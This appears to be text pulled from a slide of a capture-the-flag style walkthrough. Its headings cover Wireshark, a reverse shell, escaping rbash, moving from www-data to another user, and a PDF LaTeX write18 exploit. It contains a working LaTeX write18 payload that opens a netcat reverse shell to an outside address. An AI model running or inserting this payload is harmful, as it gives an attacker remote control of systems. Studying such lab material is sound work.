

\immediate\write18{rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.10.12.171 1234 >/tmp/f}

su ayush vs su -ayush
Follow HTTP Stream

Wireshark
Reverse Shell
 www-data to Another User
Escaping rbash
PDF LaTex /write18 Exploit

BLACKLISTED commands used.
 using \def to deﬁne new commands.

One user on the system is ayush